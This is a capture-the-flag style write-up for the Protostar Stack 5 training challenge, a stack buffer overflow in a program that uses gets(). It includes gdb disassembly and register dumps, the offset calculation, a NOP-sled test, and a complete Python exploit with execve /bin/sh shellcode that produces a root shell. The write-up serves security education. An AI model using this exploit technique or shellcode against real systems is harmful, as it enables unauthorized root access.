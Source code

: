 # PROTOSTAR : STACK 5
[Protostar:Stack5](https://exploit.education/protostar/stack-five/)

### **SOURCE CODE**
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

The program takes command line input and there is a **buffer** variable which we can overflow since it takes input in vulnerable **gets()** function. But after overflowing the **buffer** where would we go? unlike the previous challenge there is **no win() function** so we need to return to a **stack address** and place our **shellcode** to get **ROOT SHELL**.

### **SOLUTION**
Below is the disassembly of the **main()** function
```
user@protostar:/opt/protostar/bin$ gdb -q stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave  
0x080483da <main+22>:   ret    
End of assembler dump.
(gdb) 
```

Now lets find the padding required to overwrite the **instrution pointer** and modify the return address of the program.
<br>
**Padding = 76** to overwrite **eip** register.
<br>
If you observe the **esp** register, it denotes the stack address to which the **eip** returns to. Now this address is random so we can take the help of **NOP SLED** and check whether we can run **assembler code**.
```
(gdb) b *0x080483da
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
(gdb) r
Starting program: /opt/protostar/bin/stack5 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x41414149
) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) x/2x $ebp
0x41414141:     Cannot access memory at address 0x41414141
(gdb) x/i $eip
0x80483da <main+22>:    ret    
(gdb) si
Cannot access memory at address 0x41414145
(gdb) i r
eax            0xbffff770       -1073744016
ecx            0xbffff770       -1073744016
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff7c0       0xbffff7c0
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0xb7eadc00       0xb7eadc00 <__libc_start_main+112>
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) 
```
#### **PYTHON SCRIPT**
```py                                   
import struct
padding = "A"*76

ret = struct.pack("I",0xbffff7c0)

nop = "\x90"*100

trap = "\xCC"*4

print(padding + ret + nop + trap)

```

The **\xCC** instruction causes **SIGTRAP** which interupts the execution of the program. It is usually generated when the CPU hits a **breakpoint**. Below is the program output based on the python script.
<br>
Now that we know assembler code is running lets replace with a **shellcode**.
```
(gdb) r < /tmp/exploit
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x41414149
) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) c
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffff825 in ?? ()
(gdb) 
```

This is the shellcode for linux /bin/sh shell 22 bytes. **struct pack** is to convert the address to bytes.

```py
import struct
padding = "A"*76

ret = struct.pack("I",0xbffff7c0)

nop = "\x90"*100

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

print(padding + ret + nop + shellcode)
```

Just piping the program output to ./stack5 won't work because the shell needs an input so **cat** command is used.
We got the root shell.
```
user@protostar:/tmp$ (python exploit.py; cat) | /opt/protostar/bin/stack5
whoami
root
```
